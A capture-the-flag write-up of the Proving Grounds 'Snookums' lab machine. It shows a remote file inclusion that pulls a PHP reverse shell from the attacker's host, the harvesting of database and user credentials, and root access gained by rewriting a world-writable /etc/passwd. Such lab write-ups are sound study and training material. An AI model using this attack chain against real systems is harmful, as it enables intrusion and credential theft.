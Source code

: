 ```yaml
---
title: Proving Grounds - Snookums
date: 2022-11-29
author: Marius
tags: [ctf, 'proving grounds', 'pg']
---
```


Intermediate linux box found in TJNull OSCP like boxes list. Lets give it a try.

### Enumeration

```
└─$ nmap -sV -sC -v 192.168.119.58 | tee nmap     

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.49.119
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Simple PHP Photo Gallery
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp  open  netbios-ssn Samba smbd 4.10.4 (workgroup: SAMBA)
3306/tcp open  mysql       MySQL (unauthorized)
Service Info: Host: SNOOKUMS; OS: Unix

Host script results:
|_clock-skew: mean: 1h39m59s, deviation: 2h53m13s, median: -1s
| smb2-time: 
|   date: 2022-11-29T10:20:59
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.10.4)
|   Computer name: snookums
|   NetBIOS computer name: SNOOKUMS\x00
|   Domain name: \x00
|   FQDN: snookums
|_  System time: 2022-11-29T05:20:57-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
```

### Port 80

I discovered Simple PHP Photo Gallery on port 80. Did some basic enumeration, but haven't found any key peaces of information that could aid in getting foothold.

![alt text](/assets/img/snookums/1.png)

Googling **Simple PHP Photo Gallery v0.8** I found an [RFI vulnerability](https://www.exploit-db.com/exploits/48424) for SimplePHPGal 0.7 which I attempted to exploit. I've launched a port 80 listener to check if I will get a call from the server.

![alt text](/assets/img/snookums/2.png)

```
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [192.168.49.119] from (UNKNOWN) [192.168.119.58] 53080
GET / HTTP/1.0
Host: 192.168.49.119
```

### Exploitation

Looks like RFI is is valid. I then changes my listener to port 21 and launched a **http.server** on port 80 to serve this webserver a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell) to see if I can get a shell back.

![alt text](/assets/img/snookums/3.png)

```
─$ nc -nvlp 21                                  
listening on [any] 21 ...
connect to [192.168.49.119] from (UNKNOWN) [192.168.119.58] 33852
SOCKET: Shell has connected! PID: 2251
whoami
apache
```

Home directory contains Michael's folder which I do not have access to. Additionally I've found db credentials in the same directory.

```
/var/www/html
bash-4.2$ ls
ls
README.txt		 image.php    phpGalleryConfig.php
UpgradeInstructions.txt  images       phpGalleryStyle-RED.css
css			 index.php    phpGalleryStyle.css
db.php			 js	      phpGallery_images
embeddedGallery.php	 license.txt  phpGallery_thumbs
functions.php		 photos       thumbnail_generator.php
bash-4.2$ cat db.php
cat db.php
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'MalapropDoffUtilize1337');
define('DBNAME', 'SimplePHPGal');
?>
```

Using these credentials I got user credentials from SimplePHPGal database

```
bash-4.2$ mysql -u root -p
mysql -u root -p
Enter password: MalapropDoffUtilize1337

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 16
Server version: 8.0.20 MySQL Community Server - GPL

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;

+--------------------+
| Database           |
+--------------------+
| SimplePHPGal       |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.04 sec)

ERROR: 
No query specified

mysql> use SimplePHPGal
use SimplePHPGal
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+------------------------+
| Tables_in_SimplePHPGal |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.00 sec)

mysql> select * from users;
select * from users;
+----------+----------------------------------------------+
| username | password                                     |
+----------+----------------------------------------------+
| josh     | VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0= |
| michael  | U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==     |
| serena   | VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==     |
+----------+----------------------------------------------+
3 rows in set (0.01 sec)
```

 Looks like these credentials were encoded with double base64 encoding. 

```
┌──(kali㉿kali)-[~/ctf/pg_practice/snookums]
└─$ echo "U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==" | base64 -d 
SG9ja1N5ZG5leUNlcnRpZnkxMjM=                                                                                                                                                         

┌──(kali㉿kali)-[~/ctf/pg_practice/snookums]
└─$ echo "SG9ja1N5ZG5leUNlcnRpZnkxMjM=" | base64 -d 
HockSydneyCertify123  

michael:HockSydneyCertify123 
```

Using credentials I have logged on as **michael** and collected local flag.

```
bash-4.2$ su michael
su michael
Password: HockSydneyCertify123

[michael@snookums html]$ ls ~
ls ~
local.txt
```

### Privilege escalation

Did not find any low hanging fruit, so i spun up **linpeas.sh**. Which has found that **/etc/passwd** is writable.

```
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
/etc/passwd
```
Nano does not exist on this machine, and VI crashes without a proper terminal. So I had to convert my **nc** shell to proper shell.

```
[michael@snookums tmp]$ export TERM=xterm 
```

```
┌──(kali㉿kali)-[~/ctf/pg_practice/snookums]
└─$ stty raw -echo; fg   
```
Then I have generated a password and updated the **passwd** file.

```
└─$ openssl passwd toor
$1$31aHA6zz$ZxVtWCDnN9kNRSmzFXVFO0
```

```
[root@snookums tmp]# cat /etc/passwd
root:$1$31aHA6zz$ZxVtWCDnN9kNRSmzFXVFO0:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
...
```

Logging in as root was successful. Machine has been owned. GG.

```
[michael@snookums tmp]$ su root
Password: 
[root@snookums tmp]# whoami
root
```
